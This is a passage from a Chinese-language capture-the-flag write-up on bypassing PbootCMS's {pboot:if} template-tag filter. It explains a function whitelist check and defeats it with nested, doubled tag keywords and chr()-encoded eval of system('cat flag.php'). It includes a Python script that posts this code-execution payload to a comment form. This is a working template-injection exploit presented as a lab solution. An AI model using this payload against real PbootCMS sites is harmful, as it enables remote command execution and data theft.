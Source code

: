    <img src="img/break2_comment_test2_306.png" alt="image-20220722205419475" style="zoom:50%;" />

3. 研究资料发现：除了 if 标签过滤以外， `payload` 还被进行一层安全校验：提取出 `pboot:if` 标签条件判断的括号 () 中左括号前的字符串，判断字符串是不是函数或者字符串内容是不是 `eval`，若上述都不满足，再判断字符串不在白名单中，若在白名单中才可执行。

   - `eval`  把字符串作为PHP代码执行

4. 由于 PHP 项目中通过会有移除控制字符的函数。在构造 `payload` 过程中将函数名和括号间插入控制字符进行绕过。使用 `chr()` 拼接字符串，其作用是从指定的 ASCII 码返回字符串，从而进行拼接绕过。

   ```
   #system("cat flag.php")的ascii码
   \u0073\u0079\u0073\u0074\u0065\u006d\u0028\u0022\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067\u002e\u0070\u0068\u0070\u0022\u0029
   ```

5. 编写拿 flag 的代码：这里经过多次试验，猜测出隐藏 flag 的文件为 `flag.php`

   函数 `post` 发送 `payload`

   ```php
   def myPost(url):
       headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
       post = {
           'contacts': 'stephanieSuu',
           'mobile': '123456',
           'content': '{ppbopboot:ifot:ifboot:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                      '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                      '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                      '0x3b))))}我今天吃饭了{/pbpbopboot:ifot:ifoot:if} '
           
           #执行system("cat flag.php")一句话木马，
       }
       response = requests.post(url, data=post,headers= headers)
       if response.status_code == 200:
           print("Exp successed")
           return True
       else:
           print("Exp failed, response code=" + str(response.status_code))
           return False           
   ```
